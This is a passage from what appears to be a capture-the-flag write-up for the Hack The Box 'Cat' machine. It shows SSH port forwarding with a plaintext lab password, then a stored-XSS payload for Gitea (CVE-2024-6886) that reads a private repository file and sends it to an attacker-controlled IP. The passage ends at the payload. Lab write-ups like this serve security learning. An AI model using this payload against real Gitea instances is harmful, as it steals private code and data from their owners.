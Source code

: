 ```bash
ssh -L 3000:127.0.0.1:3000 axel@cat.htb

axel@cat.htb's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-204-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Mon 03 Feb 2025 08:46:41 PM UTC

  System load:           0.09
  Usage of /:            53.8% of 6.06GB
  Memory usage:          17%
  Swap usage:            0%
  Processes:             238
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.53
  IPv6 address for eth0: dead:beef::250:56ff:fe94:3686

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


You have mail.
Last login: Mon Feb  3 20:40:07 2025 from 127.0.0.1
```

Once the port forwarding is done, we can access the page on our local machine through localhost and port `3000` asks us to register, we register with the same credentials `axel:aNdZwgC4tI9gnVXv_e3Q`
We can see that it is a `Gitea page` and if we look at the version and investigate, we see that it is vulnerable ,this version of `Gitea` has `Stored XSS - CVE-2024-6886` . Therefore, what we have to do is create a repository with the following code

```bash
<a href="javascript:fetch('http://localhost:3000/administrator/Employee-management/raw/branch/main/index.php').then(response => response.text()).then(data => fetch('http://10.10.14.16:8000/?response=' + encodeURIComponent(data))).catch(error => console.error('Error:', error));">XSS test</a>
```
